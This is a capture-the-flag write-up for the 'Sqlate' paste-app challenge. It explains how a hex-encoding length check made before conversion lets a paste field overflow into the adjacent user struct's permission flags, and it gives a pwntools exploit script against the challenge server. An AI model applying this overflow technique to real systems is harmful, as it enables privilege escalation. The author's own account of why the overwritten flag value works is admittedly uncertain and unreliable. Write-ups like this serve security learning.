 ```yaml
---
title: Sqlate
author: [Sir_X](https://x.com/Sir_X72563?t=J2E1FMrckYMcUU5MNmOLpw&s=09)_
toc: true
share: true
ogImage: true
---
```


# Sqlate

<p align="center">
  <img src="../../assets/dom-images/logo.jpg" alt="Dombusters" width="25%">
</p>

## Description
World‘s most secure paste app.

## Solution
We get the src code for the app. 
The goal is to trigger the function `action_sys` which will print the flag. 
```
void action_sys() {
    system("/usr/bin/cat flag");
}
```
Checking the programs menu we can see that there is a permission check before allowing the call to this function.
```
case '7': {
    if (!check_permissions(permission_root)) continue;

    action_sys();
    continue;
}
```
The function `check_permissions` checks the current user flag against the perms provided in the  call.  (Added some debug printf's, to see what the current perms are)
```
bool check_permissions(const int perms) {
    printf("Current Perms: %ld\n", current_user.flags);
    printf("Perms: %d\n", perms);
    printf("Current Userid: %d\n", current_user.userId);
    if ((current_user.flags & perms) != perms) {
        printf("You don't have permissions to perform this action!\n");
        if (current_user.userId == -1) {
            printf("You might need to login to unlock this.\n");
        }
        return false;
    }
    return true;
}
```
The intended way of the program is to login as admin with the randomly generated admin password to get those root privs. But since we have no way of guessing or dumping this admin password we need to find a different way to modify the privs. This leaves us with 4 functions. 
* action_create --> Creates an entry in the sqlite db
* action_update --> Updates an entry in the sqlite db
* action_info --> Shows a specific entry
* action_list --> Lists all entries

The create action just adds a new entry to the sqlite db. Even if we could somehow get an sqli it woudn't really help us much, since only the entries are managed there and not the users or permissions. 

The update code on the other hand looks interesting. Besides selecting which field (Language/Content) of the entry we want to edit we can also decide in what encoding the content should be stored.
```
printf(
    "Which modifier?\n"
    "1) None\n"
    "2) Hex\n"
    "3) Base64\n"
    "\n"
    ">"
);
```
For every encoding there is a different length check to prevent buffer overflows. Small issue with that, the length check for the hex encoding has a bug. 
```
if (c == '3') {
    char* temp = base64_encode(line_buffer);
    if (strlen(temp) > 255) err(EXIT_FAILURE, "Attempted to overflow!");
    strcpy(line_buffer, temp);
    free(temp);
} else if (c == '2') {
    if (strlen(line_buffer) > 192) err(EXIT_FAILURE, "Attempted to overflow!");
}
```
The line_buffer length is checked before its converted to HEX, therefore we can write a total of 192*2=384 bytes. But our buffer for the content only has a size of 256 bytes. 
```
struct paste {
    int rowId;
    char title[256];
    char language[256];
    char content[256];
};
```
Luckily for us the user struct of the current_user is created just below the paste struct ion the buffer. Therefore if we overwrite the content in the paste struct we can write into the current_user, which also stores the users permission flags. 
```
struct user {
    int userId;
    uint64_t flags;
    char username[256];
    char password[256];
};
```
Therefore we can control the perms the user has.
Here is the part where im not entirely sure why my exploit works. Since I did overwrite the perms flag with the default paste content terminator A0. Which results in the int perms of 16688 where the root perms should be int 256. But somehow the check_permissions still approves of my rights and gives me the flag.

![Memory Overwrite](../../assets/dom-images/image.png) 
exploit.py
```
from pwn import *

binary = './vuln'
context.binary = binary
# Local debugging
#p = gdb.debug(binary, '''
#    continue
#''')
p = remote('sqlate.chal.irisc.tf', 10000)  # Connect to the remote CTF instance

def send_menu_choice(choice):
    p.recvuntil(b'> ')
    p.sendline(str(choice).encode())

def create_paste(title, language, content):
    send_menu_choice(1)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)
    p.recvuntil(b"Enter Language: ")
    p.sendline(language)
    p.recvuntil(b"Enter Content: ")
    p.sendline(content)

def update_paste(title, content, modifier):
    send_menu_choice(2)  
    p.recvuntil(b">")   
    p.sendline(b"2")   
    p.recvuntil(b">")   
    p.sendline(str(modifier).encode()) 
    p.recvuntil(b"Enter content: ")
    p.sendline(content)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)  

def list_all():
    send_menu_choice(4)


raw_payload_D = b"D" * 146  

log.info("Creating initial paste...")
create_paste(b"4", b"4", b"D")

log.info("Updating paste with malicious payload...")
update_paste(b"4", raw_payload_D, 2)
list_all()

send_menu_choice(7)
p.interactive()
```

---
**Dombusters**: _Writeup written by [Sir_X](https://x.com/Sir_X72563?t=J2E1FMrckYMcUU5MNmOLpw&s=09)_